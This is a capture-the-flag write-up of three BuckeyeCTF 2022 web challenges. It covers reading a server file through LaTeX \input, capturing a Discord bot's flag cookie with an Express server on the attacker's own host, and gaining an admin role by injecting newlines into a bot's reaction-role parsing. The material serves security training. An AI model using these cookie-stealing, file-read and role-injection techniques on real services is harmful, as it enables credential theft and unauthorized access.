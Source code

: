 # Web challenges
## Table of contents
- [textual (214 solves)](./web.md#textual)
- [owl (153 solves)](./web.md#owl)
- [quizbot (69 solves)](./web.md#quizbot)

### textual

```
I made a LaTeX to HTML converter. Why? Because I believe in more than WYSIWYG. Don't worry though, it's totally safe!

https://textual.chall.pwnoh.io
```
**Attachements :**
- [textual.zip](https://github.com/cscosu/buckeyectf-2022-public/tree/master/web/textual/deploy) (with a fake flag in `flag.tex`)

#### Solution
We first click on the link provided, to discover the website.<br>
![img.png](img/textual_firstGet.png)
Ok, so it is a compiler of LaTeX. We can run it by doing `CTRL+S`
![img_1.png](img/textual_firstTest.png)
Pretty cool. Now, what about the attached file ?<br>
We can unzip the textual.zip file. It contains all of the source code of the website. We can also observe that there is a `flag.tex` in the app's root.<br>
We can think that we want to read the `flag.tex` thanks to the latex compiler.<br>
A quick research on Internet leads us to `\input{filename}` function.<br>
We know the flag location thanks to the Dockerfile :
```dockerfile
...
WORKDIR /home/ctf/app
COPY package* ./
RUN npm i
RUN cp /bin/sh /bin/sh-orig
COPY . ./
...
```
So we know that the `flag.tex` is under `/home/ctf/app/flag.tex`<br>
So we try to `\input` :
![img_2.png](img/textual_flag.png)
Here's the flag !
<br><br><br><hr>

### owl
```md
This bird never goes ANYWHERE without its flag, but is your site hootin' enough? `owl#9960`
```
**Attachements :**
- [index.js](https://github.com/cscosu/buckeyectf-2022-public/blob/master/web/owl/index.js)

#### Solution
We can see in the challenge description that owl is a Discord bot. After a fast check, we can see that owl is on the official server of the CTF. Well, we know it's here. But now let's see `index.js`, that is surely the bot's source code.<br>
We open index.js, and we see that it is indeed the bot's source code. So, what does the bot ?<br>
First, we check what we can do as a user. We can see that the bot checks out when a user sends a message. Well, that's the only thing we can trigger, so let's dive into this function (line 61 to 78)<br>
We can only send message in DMs otherwise the bot won't read it. It seems like this :
```js
let url = /https?:\/\/(www\.)?([-a-zA-Z0-9@:%._\+~#=]{1,256}\.[a-zA-Z0-9()]{1,6}\b)([-a-zA-Z0-9()@:%_\+.~#?&//=]*)/i
let match = msg.content.match(url);
```
checks if our message is an url. But what the bot actually does with this URL ?<br>
It calls the `scout` function. So let's dive into it.<br>
The bot will only do something if the url contains the word `owl` :
```js
if(!url.includes("owl")) {
    resolve("hoot... hoot hoot?");
    return;
}
```
Then it sets a cookie containing the flag and visits the webpage.
```js
browser.setCookie({
    name: "flag",
    domain: host,
    value: process.env.FLAG
});

browser.fetch(url).then(r => {
    return r.text();
})
```
The rest of the function doesn't bother us much, because we just have found the solution.<br>
In fact, if the bot goes to a URL with a cookie containing the flag, we have to set up a little HTTP server (with express.js for example) and get the flag when the bot visits our URL !<br>
So, let's setup an express.js server.<br>
```shell
npm init && touch index.js && npm i express && npm i cookie-parser
```
This little shell command will setup everything we need to setup the server. We now just have to write the code to retrieve the flag cookie.<br>
And here is the code in `index.js` :
```js
const express = require("express");
const cookieParser = require("cookie-parser")
const app = express();
const port = 8081; //Port of the webserver
app.use(cookieParser());

// sets up a get on /owl to have owl in the URL
app.get("/owl", async (req, res, next) => { 
    console.log(req.cookies); //works thanks to cookie-parser library to have cookies shown in a json
    res.send("OK");
});

// launch the webserver on the previously defined port
app.listen(port, () => {
    console.log(`app launched on port ${port}`);
});
```
A little `node index.js` will launch our webserver.<br>
Now, we just have to DM the bot with our url :<br>
`http://MACHINE_IP:PORT/owl`<br>
All we need to do now is to check our console !<br>
![img.png](img/owl_flag.png)
<br><br><br><hr>

### quizbot
```
https://discord.gg/q4qtnrKd
```
**Attachements :**
- [bot.py](https://github.com/cscosu/buckeyectf-2022-public/blob/master/web/quizbot/bot.py)

#### Solution
We see in the description that there is a Discord link. We're joining it.<br>
As we join we receive a message from a bot : `quizbot`. We can imagine that this CTF is another discord bot cracking.<br>
The message looks like this :<br>
![img.png](img/quizbot_welcomeMsg.png)<br>
We try to react with 👶 for example, and we can see that on the discord server we now have the role `Thoroughly research and solve the challenge`<br>
![img_1.png](img/quizbot_testRole.png)<br>
Ok, so that's great. It's fun. Let's try `!quiz` :<br>
![img_2.png](img/quizbot_testQuiz.png)<br>
Ok... Well strange but let's do the example to test :<br>
![img_3.png](img/quizbot_testAnswer.png)<br>
Right, we can see that the bot replied with our first response, and that we have a new role on the Discord server :<br>
![img_4.png](img/quizbot_newRoleQuiz.png)<br>
Let's now check the attachement `bot.py` that should be the source code.<br>
Well yeah it is. So, as the other bot, let's see what's vulnerable.<br>
At first, I had a struggle to find what to do. There is no flag, no hidden flag file, nothing related to a flag.<br>
But.. when we go back to the Discord server, we can see that some users have the admin role, even though they aren't admin on the official CTF Discord server...<br>
So we can guess that it has something to do with the roles. So... what can give us a role that we choose ?<br>
In fact, so, in the source code, we can search for the functions that gives a member a role : `member.add_roles(role)`<br>
And there is only on the event `raw_reaction_add` that a role name is manipulated by an input and not hard-coded : 
```python
if str(emoji) == line_reaction:
    role = discord.utils.get(guild.roles, name=role_name)
    if member:
        await member.add_roles(role)
```
And how do we get here ?
```python
if (
    message.author != client.user
    or user == client.user
):
    return

lines = message.content.split("\n")[1:]
for line in lines:
    try:
        line_reaction, role_name = line.strip().split(" ", 1)
```
So, we need to have a message, only sent by the bot, that contains line break(s) and that have the pattern :<br>
`:emoji: role name`<br>
So, how can we make the bot writing something that we personally want ?<br>
Remember `!quiz` command ? It writes the first answer of the quiz.<br>
What is we put some line break and a pattern so we can react to this message with the emoji we want and get a role like.. the admin role ?<br>
So let's try...<br>
![img_5.png](img/quizbot_hackingAnswer.png)<br>
So we have a message that has the template we want. What if we try to react to this message with 👀 ?<br>
![img_6.png](img/quizbot_reactHackedAnswer.png)<br>
And now, back onto the Discord server :<br>
![img_7.png](img/quizbot_omgAdminRole.png)<br>
We now have access to a new private channels reserved to admins !<br>
![img_8.png](img/quizbot_secretRoom.png)<br>
That has a pinned message...<br>
![img_9.png](img/quizbot_flag.png)<br>
And there you go !

